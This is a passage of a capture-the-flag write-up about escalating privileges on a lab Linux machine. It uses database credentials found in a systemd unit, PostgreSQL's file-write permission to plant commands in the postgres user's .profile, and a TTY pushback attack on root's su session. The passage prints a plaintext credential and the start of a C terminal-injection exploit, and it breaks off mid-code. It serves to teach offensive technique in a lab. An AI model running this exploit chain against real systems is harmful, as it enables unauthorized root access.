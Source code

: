 ```
WorkingDirectory=/var/www/app/
ExecStart=/usr/bin/node app.js
Restart=on-failure
Environment=NODE_ENV=production
Environment=DATABASE_URL="postgresql://download:CoconutPineappleWatermelon@localhost:5432/download"

[Install]
WantedBy=multi-user.target
```
{:file="STDOUT" .nolineno}

We find the value of `DATABASE_URL` in the web server process, which contains credentials to login on the local PostgreSQL server


### PostgreSQL

We logged in using the credentials we found in the service, then listed our permissions on the PostgreSQL server with the built-in command `\du`. We noticed one special permission called "pg_write_server_files" which allows us to write files as the service user _postgres_. We noticed that root runs `su -l postgres` from the PSpy logs, so writing to `.profile`{:.filepath} in the service user's home directory would allow us to execute commands each time they run `bash`.

```bash
# Connect to PostgreSQL server with credentials
psql -U download -h localhost
```
{:file="wesley@download (SSH) ➤ bash" .nolineno}


### TTY Pushback

Looking back at the PSpy output, a group of interesting processes were started by a script executed as root. We began to reconstruct the process tree created by this script using the PIDs and PPIDs displayed in the PSpy output.

```tree
bash -i ./manage-db
├── systemctl status postgresql
├── systemctl status download-site
└── su -l postgres
    └── bash
        └── perl /usr/bin/psql
```
{:.nolineno}

Since we had a path to access _postgres_, we could execute a [TTY Pushback](https://www.errno.fr/TTYPushback.html) to escape the context created by `su -l postgres`, and execute shell commands as root. Using information from [this article](https://www.errno.fr/TTYPushback.html), we created a C program to exploit this flaw.

```c
// gcc -static -o pushback pushback.c
#include <sys/ioctl.h>
#include <termios.h>
#include <signal.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  // Make sure a command is specified
  if (argc > 1) {
    // Stop parent process
    kill(getppid(), SIGSTOP);

    // Send each char in command
    while (*argv[1]) {
      char c[] = { *argv[1]++ };
```